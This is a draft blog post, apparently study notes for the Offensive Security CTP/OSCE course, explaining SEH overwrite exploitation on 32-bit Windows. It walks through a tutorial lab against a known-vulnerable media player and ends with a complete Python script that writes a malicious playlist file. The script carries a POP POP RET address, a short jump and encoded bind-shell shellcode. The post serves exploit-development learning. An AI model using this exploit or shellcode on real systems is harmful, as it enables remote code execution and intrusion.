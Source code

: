 ```yaml
---
layout: single
title: "SEH primer for CTP"
excerpt: "A primer for n00bs like myself in preparation for the CTP course offered by Offensive Security"
date: 2020-07-10
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/seh/lich_boi.jpg
  teaser: /assets/images/seh/lich_boi.jpg
  teaser_home_page: true
classes: wide
categories:
  - OSCE
tags:
  - ctp
  - osce
  - assembly
---
```

# THIS IS A DRAFT

![omg](/assets/images/seh/lich_boi.jpg)

## A primer on Structured Exception Handling (win32 exploitation)

*This article is written to help those who want a conceptual grasp on SEH exploits, I wrote this to help myself obtain a clear understanding before my CTP course starts.*

##### There are already many fantastic articles on this subject out there (some of which are linked throughout this article), which I encourage you to consume in order to get an even better understanding. 

#### What is an exception Handler?

In simple terms, an Exception Handler is exactly as the name implies, it *handles exceptions*, that is to say, when a program reaches something outside it's known functionality, an exception is raised (eg if a program wants an input between 2 and 5, and you put in 6). 

The program then needs to know how to *handle* this, either with an error message, exit code, or whatever else.

A Structured Exception Handler will follow a structure in  regards to handling exceptions.

For every exception handler, there is an Exception Registration Record structure.
These structures are chained together to create a "linked list" (a linked list contains a sequence of data records).

When an exception is triggered the OS scans down this list to evaluate the other exception functions until it finds a suitable exception handler for the current exception. (If no error is found, windows places a generic handler at the end to ensure it wil be handled in some manner).

We can overwrite the SEH address with an overflow, and thus control it.

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 


#### SO WHY IS THIS RELEVANT TO US??!

Well, when we send an attack string which happens to overwrite the SEH, windows will zero out the CPU registers, thus breaking our jump to shellcode ;(

#### What we can do:

Overwrite SEH with a pointer to POP POP RETN. 

#### Why would we want to do that?

Well, after passing the first exception, EIP is overwritten with the value of SEH.
Second, the registers to which the bytes are popped into **are not important**, what is important is that when a POP occurs, ESP is shifted +4. When a RET is called, the ESP address are moved into EIP and executed.

SEH is located at ESP+8, so if we increment the stack pointer by 8bytes and return to the new pointer we will then be executing nSEH. 

EG a program crashes, registers get zeroed and SP +8 is overwritten with crash string eg 41414141

![SEH_overwrite](/assets/images/seh/SEH_overwrite.jpg)

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 
We also know that the EstablisherFrame (which starts with Next SEH) is located at ESP+8, so if we can load that value into EIP we can continue to control the execution flow of the application.

## Demonstration

To demonstrate this, we use example exercise from [https://www.fuzzysecurity.com/tutorials/expDev/3.html](https://www.fuzzysecurity.com/tutorials/expDev/3.html) (vulnerable software link is broken, software available on exploit-DB [here](https://www.exploit-db.com/exploits/17803)).

**Another invaluable resource for this subject is: [https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/](https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)**


As the steps to exploitation have already been covered, I will not run through them again here, only provide a brief summary.

First, we crash the application with a pattern attack string to locate the offset to SEH, which mona will do the heavy lifting for.

As below we see SEH overwritten and offset located:

![SEH_crash](/assets/images/seh/SEH_crash.jpg)

Calculate offsets with `!mona findmsp`

![SEH_control](/assets/images/seh/SEH_examine.jpg)

Now that we know the offset, we confirm control by crashing with another simple attack string as per the offset specified when we examined with `!mona findmsp`

```
nSEH="B"*4
SEH="C"*4
buffer = "A"*608 + nSEH + SEH + "D"*1384
```


Proof of control: 

![SEH_control](/assets/images/seh/SEH_control.JPG)

Now we choose an address to point to in a module containing POP+POP+RET with `!mona seh`

![SEH_pointer](/assets/images/seh/SEH_pointers.jpg)

Next:
* I choose 0x6162e557
* flip for little endian `"\x57\xe5\x62\x61"`
* modify my malicious playlist generator (obtained from [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/3.html))
* restart the program in immunity, set a break point by going to expression 
* Import playlist
* Pass first exception (shift+F9)
* Hit breakpoint
* step through to call RET (F7)

Now as you can see below, EIP is now at the address of POP+POP+RET, step through until RET is called, and the next screenshot will show we have reached nSEH.

![SEH_break_PPR](/assets/images/seh/SEH_break_PPR.jpg)

![SEH_after_PPR](/assets/images/seh/SEH_after_PPR.jpg)

Now you may have guessed something based of the below sequence, that's right! if we continue we end up in an infinite loop - this is because as we hit BBBB, ANOTHER exception is raised, thus calling POP+POP+RET again...

So now we need to replace nSEH with opcode that will JMP over the next few bytes of space. A safe amount would be 10, and pad the beginning of shellcode with NOPS.

Once this is done some shellcode is generated and placed AFTER SEH but BEFORE the rest of the attack string which should be big enough to overflow the application as below:

```
#!/usr/bin/python -w
shellcode="\x90"*10+("\xd9\xc2\xd9\x74\x24\xf4\xba\x75\xad\xc8\xb1\x58\x33\xc9\xb1"
"\x53\x83\xe8\xfc\x31\x50\x13\x03\x25\xbe\x2a\x44\x39\x28\x28"
"\xa7\xc1\xa9\x4d\x21\x24\x98\x4d\x55\x2d\x8b\x7d\x1d\x63\x20"
"\xf5\x73\x97\xb3\x7b\x5c\x98\x74\x31\xba\x97\x85\x6a\xfe\xb6"
"\x05\x71\xd3\x18\x37\xba\x26\x59\x70\xa7\xcb\x0b\x29\xa3\x7e"
"\xbb\x5e\xf9\x42\x30\x2c\xef\xc2\xa5\xe5\x0e\xe2\x78\x7d\x49"
"\x24\x7b\x52\xe1\x6d\x63\xb7\xcc\x24\x18\x03\xba\xb6\xc8\x5d"
"\x43\x14\x35\x52\xb6\x64\x72\x55\x29\x13\x8a\xa5\xd4\x24\x49"
"\xd7\x02\xa0\x49\x7f\xc0\x12\xb5\x81\x05\xc4\x3e\x8d\xe2\x82"
"\x18\x92\xf5\x47\x13\xae\x7e\x66\xf3\x26\xc4\x4d\xd7\x63\x9e"
"\xec\x4e\xce\x71\x10\x90\xb1\x2e\xb4\xdb\x5c\x3a\xc5\x86\x08"
"\x8f\xe4\x38\xc9\x87\x7f\x4b\xfb\x08\xd4\xc3\xb7\xc1\xf2\x14"
"\xb7\xfb\x43\x8a\x46\x04\xb4\x83\x8c\x50\xe4\xbb\x25\xd9\x6f"
"\x3b\xc9\x0c\x05\x33\x6c\xff\x38\xbe\xce\xaf\xfc\x10\xa7\xa5"
"\xf2\x4f\xd7\xc5\xd8\xf8\x70\x38\xe3\x03\xb8\xb5\x05\x61\xaa"
"\x93\x9e\x1d\x08\xc0\x16\xba\x73\x22\x0f\x2c\x3b\x24\x88\x53"
"\xbc\x62\xbe\xc3\x37\x61\x7a\xf2\x47\xac\x2a\x63\xdf\x3a\xbb"
"\xc6\x41\x3a\x96\xb0\xe2\xa9\x7d\x40\x6c\xd2\x29\x17\x39\x24"
"\x20\xfd\xd7\x1f\x9a\xe3\x25\xf9\xe5\xa7\xf1\x3a\xeb\x26\x77"
"\x06\xcf\x38\x41\x87\x4b\x6c\x1d\xde\x05\xda\xdb\x88\xe7\xb4"
"\xb5\x67\xae\x50\x43\x44\x71\x26\x4c\x81\x07\xc6\xfd\x7c\x5e"
"\xf9\x32\xe9\x56\x82\x2e\x89\x99\x59\xeb\xb9\xd3\xc3\x5a\x52"
"\xba\x96\xde\x3f\x3d\x4d\x1c\x46\xbe\x67\xdd\xbd\xde\x02\xd8"
"\xfa\x58\xff\x90\x93\x0c\xff\x07\x93\x04")

filename="seh.plf"
#0x6162e557
buffer = "A"*608 + "\xeb\x10\x90\x90" + "\x57\xe5\x62\x61" + shellcode+ "B"*(1384-len(shellcode))
textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()

```

Now we generate our malicious playlist and open it in again - this time immunity does not register a crash, and we are able to connect to the bind shell payload:

![SEH_exploited](/assets/images/seh/SEH_exploited1.jpg)

So the takeaways for exploiting SEH are:

* As always calculate the overflow amount
* calculate the offset to SEH
* confirm control of nSEH and SEH
* Use SEH to move up 8 to nSEH
* Use nSEH to Jump back over SEH and into shellcode


#### I hope as an aspiring OSCE/security researcher you found this informative and above else *helpful* - I will be following this up with at least an article on ASLR.


# THIS IS A DRAFT
